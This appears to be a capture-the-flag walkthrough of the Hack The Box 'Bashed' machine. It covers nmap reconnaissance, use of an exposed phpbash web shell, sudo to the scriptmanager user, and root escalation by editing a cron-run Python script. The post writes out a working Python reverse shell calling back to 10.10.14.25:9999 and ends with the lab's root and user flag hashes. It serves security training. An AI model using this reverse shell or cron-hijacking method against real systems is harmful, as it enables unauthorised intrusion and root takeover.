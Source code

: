 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : Techniques used, cron-jobs hickjacking, sudo permissions
tags: HTB, linux, python, sudo, cron-job
---
```


# HTB Bashed

# Recon
Nmap scan
```ruby
Nmap scan report for 10.10.10.68
Host is up (0.022s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
```


Dirbuster scan
![](https://lh3.googleusercontent.com/p-Az8pLCCTYFiLlCET_o0v7tApv-cTEcdmdJV-DyvqIGcGfYpQLFuim_jF3KDWhSrIc9DRErwMY7sFOffstVjceAfYJUHs_Vhq3DczRAGGDDFzHDSYkVQBM_bQxo33LG60o7-GYwIkIE4P5ma35h7H8IIstoZ3GIqqcxV4hVvdEMzLKACD07Ki5ASb1GSp5cw9s_XFues8tREQoOtRQdkICwWzdkB7qbYZHdHMw3uh8ZVZ5jNJDbmaOKkWy_RI1LOXoSV3OJU36VXtgpRVqpAu0ciDdHK3MLkUwBavIDFunv4f46pWujHZGUZE68pue4UOVqSbUHLcSptrk3trAd2pEW_cSa6XGIrtvaPOXRtN9i8aUj-j1AxXslr9BReBPU5Q8D_7OalQ3Rhm0crohqJWbyO4y7QpgFBsZErLqMWXjsRzZzmE68X-yvjFlzOYhg6auzm8xjoZIvuq6hi7giF0lPuA7STUGMFxGDKCh-KVV31MIyGSHrwNcLAzr1L2DnwFEJRCXDEloTTtKRHyN3ZPPzWM5owANdFTX6ZkvgfxerDlIc2ucFSwRk3YBESPsRp9bOyVfn3EJpbItc5ynKJMj2ZRjcRIf34EU42mAgBroULlkLojoXL0EzIech5s-8I_dDAxcRxRnRmKY9ydQTsGLE7-5wN8R4diGYsrkIiGEu8Naj2QbRf1U=w533-h340-no)

We access the web app running on port:80 and quickly noticed that is running a `phpbash`. 
Furthermore, we investigate the `dev` folder and we encounter two php scripts deployed
![](https://lh3.googleusercontent.com/rHt8sWBKRtNiW-cqbo5Ww3wBmFYzSUhB5gW15CwDLd9-JIXQmY54qC52-YNjK9696pECh6s9p0KeHLDUo3fsfqqOkNt8kYMZpgFvDEdKuQs5wuKpGXJx5kxaVy3C2eHhPH5_X62cUfFIDVJP_PFu6W24Oqw5R58OxqPuiXtViF_gXJuZSwXqqSqtdfxFpU68uk5Y_29EJAHnoJzSd35SfmrWv--sSeDHYfbAQI8YzWVn-QoURCj39mnEFO61YZ64Uu85aaTJy02XMWVmjZD5H3Q1XdUgwYbr6sAFfl5Z7MbNhSWmJ2UnNdBJdub8rY_pbqprawbxtmp528jocKQKh3p11RrqiNBisZIX9AXH4_l8vpo6tFRMBSR7uGdZGfGF5YtvuaK7kWKr6nhkn3F3rLG-cS5qTg0vOhT6mYtn5cOEHDaXjT8cQ2Na8o1czFGkhvxxDqbeTG8lEAt0JDZNXKl5mmIMrj7mvmTAHxfERjPHRbF1-EoCzAwhApiujhp0KDbDZehlCSPDALwf_I4ircv2v7hUFjUc8wnTu3N9hUXJcaJpMzGgljImPr3JpvAGKKsbFDWehc_w9-1rkOO_wZh8iramVzMs8CiKSmU3tp2R0bnZzOj-nKnASjdQT-MG5AvlZ2sQeHo1aKsbjyQOV6nAHMp9LeU95F-eFho9pVRSOURUWmLIXlM=w468-h295-no)

we run the phpbash script and we find out this is a backdoor shell that connects to the targer machine.
![](https://lh3.googleusercontent.com/-MJGoTGb1t21rtxi0eI5TjHfBSSbn2B11_r2CKwBJ8vhrvPEr1IuoLtMcO1qNyEd2c6B_oTDCLGOfER_sPgXGG7rd5ksOI_CP7KmQa8EKFWSCOOfbp2AOtxJoEF088SES-fvxRFAI9kvdc0hYwViv5PVymG_yliJ9qzHnCXntBTVdzPKqXVfby8X_pPp6dORLK4pfN_PpkeKiNcwQHxnICTdyRJw44AE2najx1NZ7pRGolnKKP56fu7RGHDylQS3WvFdaZgvJ3spQkCWMh_Z7HzUzVPSA-BgtS636OD4IIcwG8EpUKmIiIfv2xjyAHSwzRI8v1R_g0bh2kV-Gyq911x-3b6ob2b_HhZSFBB3TqF-wCKGcUmjFG0V8f00U9hRYQyWEJVzOzJYcj2kWNqzb_KldAX138rsQCCjgClAGm6GBRWyFR7nwHw2HUhDfALGOe5I_VH4j-fUsT4K8vcuz7DPy6aBU8S2k7oWd9smm5LwN8HxelJ7nOPVgfQt9Rn4HZjKLFV8JYT4Ci5ZdAlKghbUN2pIqjBynOQaku-JX0Ce2JdJ_4qtjDVmN-DdExbOkVRIflPTyNHfg9CIeUknY3DfZOm8jFzmhw1T580Lwwd_7fdmaWfXmr_HL9upftTfpcT-csU-vyXGZMe6YiLaoLvsW6rurkKz_9ib1BEMPV6Y03S0PiCwibA=w842-h213-no)

However the shell is not interactive. so I use nectcat to transfer a `tcp_pty.py` python file to satisfied our needs.

![](https://lh3.googleusercontent.com/tqfU55RRL9rnsrmJu14kSTNEuoF163nki3XVFojCv45FcqFyLij2ufqxkxeS0-aP2BtGGhABm6ZKHNuctax8n12a6Oti8S9ZVLKHeUzjHyi-an8RsVjqNgVdlZm8kuI5fPTPIfHi4Tfg_RxFw_ijHbreaggUtIDsloBkgggnJgvgZfjjhpannxal-rJCglRtBCzID7CcICeKXQUMI7YTJq8oUSSJSzAnaZ_Er-0GiOtDllGwAi7sXJ0v8B6Dc04W8I_9SZBwyfpSusi5gtr4vTRnHo3pIyvcHeIUJZLKeW3xfc_dCEdj_THcAtPE7rNgvPzxn3mb9-K92JkJYhiyPGuCh0u6X-1YGHSjth6PO7uq3N20v0ctsR_Pr8RCE0yY5Smw7imYwkttt6UrcC6h99kJcF0tvjyx_pVcCARYb_9JcI6IAkcwRQT--96u0FdN_XUbiRbK0UyvPg-KnyyCcj_NY9ZT4v96woWQQaNf5Vgbq26SCPWsjHyyw3kPDyBZYLtZxhaFOv-GvJldcxz1CptsBgkmpERJkJ51a5QwNg4jQpt1ewnatddS3JhbDxQ3H3QWC51qCXlqeBajw7xIAsJeNvPZq-Ats_L1wLTG7EVlJBXdTJwhxpYqkgpomPIFBYaVaBL-md4K0coBAaG7HUXcO_zwoP8Kv3y1LlmY2Kjyj5W7E4V7Uy0=w894-h397-no)

![](https://lh3.googleusercontent.com/evvfMIper2SfsSvgR5pysRX29meAvgfSb7fTA555xU927NyFVVauAVqEMUp4uAFpNXH9umzzgA-rYKvgw11k_z0x5Lu2aZ3ZmmhOliUDRSQ7s_qQMihu5cGEoEN7EQPYsjRxrP6OaPMitDsz5_RZjnOgc7LoNzpeSRhcaOea3GhrLiVzwdVdvEBM3fgVSdciFjf8_Thv5hNyZ_QTHm-UI0_FI1Dfak_GP_7tLQBrHSn_yvD37WeoEz7g2v73ZN_fRFMChv-EM8R1Yk5DEOsRGJrUnTK9PbmGIb_qz6cBGRT3m3XX0ANTNnb5O1QcZc_K6coXLi1CuXMgUVB40fOT9HgGG1rQBL5DHl9bSiwBOdaP19l87_AygXtR2eNMT3W5Eqo8OahWoXcgz0kBevlAJ7rRJWbDRYZ62fKMnGe7-tPMutiIiYbnFe_JAVJQooXrOGJhvs18sEo2TBMjH91sUsRcRkPBPSS-qRjsnsGuM3HD8ghyB1kHvvSZHA0owPjA1x3uunVQ_wW-nEdD2JqXO-q_TV57spPJVvSPS2XvHCnmWwwAR7BAPKf7WEksMLCwUVsONl7jAhlBgUfYHmSZrbYNXFs6zQSGPDzbbDSqnvbdz77t-Q0Wn130d1559wqYJNuamx2623hSbCC4uwtb7BvCQ1jon8V80BMWkmlBaDYEUKJZyJychsw=w1180-h354-no)


# Exploitation
We run LinuxEnum and we noticed that we are able to sudo commands without passwd for user
**scriptmanager**

![](https://lh3.googleusercontent.com/1vF8x_ngRjD6Fy-Wi-B9fjLE-1M8SX8sa-YcNzPY00epfNJq9h15EDCF3thztjSY0ZSmqX0XaO40qf2_FDighO3qvdll_1-EcXP6MC1WN8XuMPuBWep8GqkDoxicbeuPUxSNyXwP9JZLOuGK5xdFniik6um0xLWMP3O_x-WtoaEx3SEllnoxTW_B3IhjxtyfDhb7yeZIJ4DW4bVzBKPpuaRVKtBZ_RfMgwtDnW-fK7F5a9zRZvh30ffDnEdVEV08meoapAj0s1jbYDRTAHV5ILEmlbAV9J_B66P1OhY6K5QKhVytI9cvJQ4CgTiteyQWSEmmXpt_qgD0b84fXBZ_LYLbBTT5SQ8sBT_s5nVKfvLnVauuSLJ0QnXmxV-wq3zUJS0suSgEUYkxuxrCah56r5_cuAUEnNfyHsWvI3XigoC0AFMU_yq3hYUfBNhB863xrGsBX6hf8DoYhOIprLxMSgXNE9YtULEFDD8Y5b7KMtl_hdFdfiWbcU2uPrD6-Cv3ZHse7mXEWvmpNqgdQaJIkYZnJceGVxdsHGfvjTZnSMFCa8QBKm4XLFLeC1AsYo1v4HWRunbwVQmO7hRIn4CmDZieiJkB5t51CqJ1-h3b5PiK3PhzMWMuJkk-3W-vwTpxYNQrCdi6fEnFNKfTSzp_--LuiXw5Bb2ed8TAZLRZLylhBJMjoiiu5dc=w912-h121-no)

```ruby
sudo -u scriptmanager whoami
```
```ruby
sudo -u scriptmanager bash
```
![](https://lh3.googleusercontent.com/9yx1EPOA3p-E7IO7jwguOezkX13GBLgZoxnMvxiYcrrmBfHROedL9ZClsvMt_vbibWyGTPX1uJ7Z1Fm_2i04TKFYoQsZi7hdTC1xSUKxVzD8zpST9ESyUNbqOzzOFh3drCxDQdrf8cDbRKWu02-qFGHan7yKxZrnZIJeTTqOokdpiSoyPsG-pBX8uxFdhPX3qieWlPOqpRhJYlKVHOkcATLqy15pQGwaFVzYbIZ35J2RPBBT97JFTMJQQzjfYih6bGGGMabT5cKaSxz-4FDtdTA4fTwwtLeOKiXu6T_-x3Z1DIwndh7fNqczc_BDBbM79Sf9RJC8yVl8ZzhNcxFIvXxxVoT6-PT4G95QLTaRWt-oRnSeqSDiPk6YR7rjpGu0BqUsMBsuDsxKaMAiWMJt_HoXXSaNL4sRi19anU44bwIP2eU6LvhtRffbCFUIGubdk_rc5dTQHp4KQqdJHDwlq34sCj_XF7ZZZVBcppg9_yqa6GzM6Lu4Y_Ywf7yhLta4EH1RQXiTIDoFGnBDlD5cbG_BmgELuMlffAHmk4OQE6tVH0evgWkcR2ESTRQohcCa9lPMa7e6aSn4k6_GGufmYM3Cjk1bqef7ToeDc5pwhHrvA8CHwMckwRsLwHrAE8_BTjksJxxVcvxN7k4--YSc1lyXi3L7vaAJdjxH7CvPfhVD86gdKeCcZHE=w603-h243-no)

# Privilege Escalation
As scriptmanager user we locate a script folder that contain 2 insterested files
test.py and test.txt. Test.txt is owned by root but the text.py is owned by scriptmanager
The text.txt file is update every minute so this is a cron job
so we modified the python file to pull to call for a reverse shell
![](https://lh3.googleusercontent.com/G6p-UTwhnYCXBurI6bDEabPozrK9dBjiweY5QT7Fo9ZiVBZcqQjDx-tZm27RsXnik1pwEja8decnNZo8v8Q-9T4qoYU-yWiJlHEmfnjixLKXJ2ksJfaeaRKK5sOJs-jp3-xDyRfRL_1Zk5WZCAxkEpqIxsvXD0uH-fsPpPI_m4eYgNEjtJTGiVmzMSVhMVSFQ4MZuel0iSQkI22PmB9ZUBjqCCp6_u_L10FtTvA3PIXMCIuGKuwVxHL30UF7WjP1va6zJQW9O7Lkx0ba3vNUK3k4S-skgPkuswN1wbV8gBM7RGtdsLhJhy2qvC5Ho-gZx3AAmPyOa3jlG1JQXduQj_xVd24-8SVHxTE25iqGMxOTNmlLxHG3jKLJ-mU2Lgs8A9lJ-ljv1bMZcNyqCiWCpFkEHVnt4aE1w6NuAUNt1P_lbCOgcTolAwIazkeum5D1o_d-w7nXb_NcUfkCvPCpWE8QkkPx-CWxtLAYuOLGRm4fiHLPoOG_sDtY9_bWdBNH0gHdZTL5DIV3K81PGCHB-TGXUJWJnRLmuKsQ-JlJICyVmT4FQAiMI20Wx3-lmLs_wUOH12N-XUoDFzasPwzdVcp65NuwDFm5rB6bwFgnQte77ENC9JCMvKpTaPABsBiMGsdRXKnL_-bNnpCfNJXw8Jo7wLHCsOYuXfpl3yvGUTsmBhLtgS5udVM=w558-h27-no)

```perl
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
![](https://lh3.googleusercontent.com/4spYvwMX11ocp0JnpHnTzPURbWJxRiIaIzhFbkWfPVDwZHKI-4MScg1wEFuujKMpQ2yzxHJd7APAnW5a1JXSXqB5NLTX8ghfxRZWosnCWfdI_HzIF-ORpziOeZlJiDLUt1yMjwD7KfCZ1OLDqZATjxgXCGLBfCNmvltUCdP2szVXF34MiF4ZZRlqgO4fmOT63wckfbvPge6S0R-Q9Bf2KmSv3nRg_BlwJThwpxX8sz2POnU9k6w1FyHlnZbdJ8LNs8nudFtb_qTM4gN9quAE_UeRjTkv-yg4DprYfUBfTMGwWOC5XVU6ApllJItREkEr_ySq-ysIvQkD9nY-Rgb-jxVp7HzcKbjOh-DwnEMU0NWa4IRifxbHeLo7Mi0FP-FvxcJFlUNXv4vw5eQWw6eXXnAxBDNS0da0TFU0l-f5ae3yf6P8Y16m8yM6jYAnC_o_MtpzB6srYIAeEEo8V5soKQLQjDI1yKL4nZqpheR4CtnvmwYhJmUZEUPzCnIkcELNk3FqgRfwUrF43puCwnajrSAX4lv3vBoigJFACJ27R_grvayEH_33HP-bBgn3fYsOHExO9OZkoFAdw0xA4uRkYsxih3V9CoTUJIg-0J78fnv6TE8vF2DF0jYSqefSb7_fhgqb63jdasOfCSBqPOJo78hc9Jcm0b8bynD7pQwOp_RJC0UP3eFBBNE=w607-h194-no)

```ruby
ROOT  "cc4f0afe3a1026d402ba10329674a8e2" 
USER  "2c281f318555dbc1b856957c7147bfc1" 
```

